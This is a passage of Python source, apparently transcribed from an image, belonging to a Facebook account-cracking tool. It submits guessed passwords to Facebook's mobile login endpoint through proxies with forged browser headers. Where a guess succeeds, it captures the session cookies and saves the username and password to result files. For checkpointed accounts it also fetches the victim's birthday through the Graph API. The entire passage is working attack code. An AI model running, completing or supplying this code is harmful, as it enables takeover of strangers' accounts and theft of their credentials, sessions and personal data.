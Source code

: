                  heade={'Host': cebok,'cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://'+cebok,'content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://'+cebok+'/login/device-based/password/?uid='+user+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'} 
                 po = session.post('https://'+cebok+'/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs) 
                 if "c_user" in session.cookies.get_dict(): 
                     cooz = session.cookies.get_dict() 
                     coki = 'datr=' + cooz['datr'] + ';' + ('c_user=' + cooz['c_user']) + ';' + ('fr=' + cooz['fr']) + ';' + ('xs=' + cooz['xs']) 
                     if "t" in Apk: 
                         print('\r %sOK %s               \n Username : %s\n Password : %s%s'%(H,waktu,user,pw,N)) 
                         print(f'\r {H}Cookie   : {coki}\n') 
                     elif "y" in Apk: 
                         print(f'\r %sOK %s               \n Username : %s\n Password : %s%s'%(H,waktu,user,pw,N)) 
                         print(f'\r {H}Cookie   : {coki}') 
                     wrt = '[YUSEP-OK] %s • %s' % (user,pw) 
                     ok.append(wrt) 
                     cek_apk(session,coki) 
                     open('results/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt) 
                     break 
                 elif 'checkpoint' in session.cookies.get_dict(): 
                     try: 
                         tokenz = open('.token.txt').read() 
                         cp_ttl = session.get(f'https://graph.facebook.com/{user}?fields=birthday&access_token={tokenz}').json()['birthday'] 
                         month, day, year = cp_ttl.split('/') 
                         month = bulan_ttl[month] 
                         print('\r %sYUSEP-CP %s               \n Username : %s\n Password : %s\n Tanggal Lahir : %s %s %s%s\n'%(K,waktu,user,pw,day,month,year,N)) 
                         wrt = '[YUSE-CP] %s • %s • %s %s %s' % (user,pw,day,month,year) 
                         cp.append(wrt) 
                         open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt) 
                         break 
                     except (KeyError, IOError): 
                         month = '' 
                         day   = '' 
                         year  = '' 
                     except:pass 
                     print('\r %sYUSEP-CP %s               \n Username : %s\n Password : %s%s\n'%(K,waktu,user,pw,N)) 
                     wrt = '[YUSEP-CP] %s • %s' % (user,pw) 
                     cp.append(wrt) 
                     open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt) 
                     break 
                 else: 
                     continue 
                 #time.sleep(31) 
             loop+=1 
         except requests.exceptions.ConnectionError: 